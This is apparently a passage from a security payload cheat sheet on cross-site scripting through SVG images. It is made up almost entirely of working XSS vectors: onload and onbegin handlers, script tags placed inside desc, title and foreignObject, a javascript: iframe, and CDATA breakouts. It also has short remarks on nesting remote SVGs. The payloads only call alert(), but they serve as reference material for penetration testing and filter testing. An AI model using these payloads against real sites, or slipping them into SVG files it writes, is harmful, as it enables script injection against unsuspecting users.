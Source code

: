 ```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" width="100" height="100" xmlns="http://www.w3.org/2000/svg" onload="alert('svg attribut')">
  <polygon id="lightning" points="0,100 50,25 50,75 100,0" fill="#ff1919" stroke="#ff0000"/>
  <desc><script>alert('svg desc')</script></desc>
  <foreignObject><script>alert('svg foreignObject')</script></foreignObject>
  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert('svg foreignObject iframe');" width="400" height="250"/>
  </foreignObject>
  <title><script>alert('svg title')</script></title>
  <animatetransform onbegin="alert('svg animatetransform onbegin')"></animatetransform>
  <script type="text/javascript">
    alert('svg script');
  </script>
</svg>
```



### XSS in SVG (short)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### XSS in SVG (nesting)

Including a remote SVG image in a SVG works but won't trigger the XSS embedded in the remote SVG. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg" height="200" width="200"/>
</svg>
```

Including a remote SVG fragment in a SVG works but won't trigger the XSS embedded in the remote SVG element because it's impossible to add vulnerable attribute on a polygon/rect/etc since the `style` attribute is no longer a vector on modern browsers. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg#lightning"/>
</svg>
```
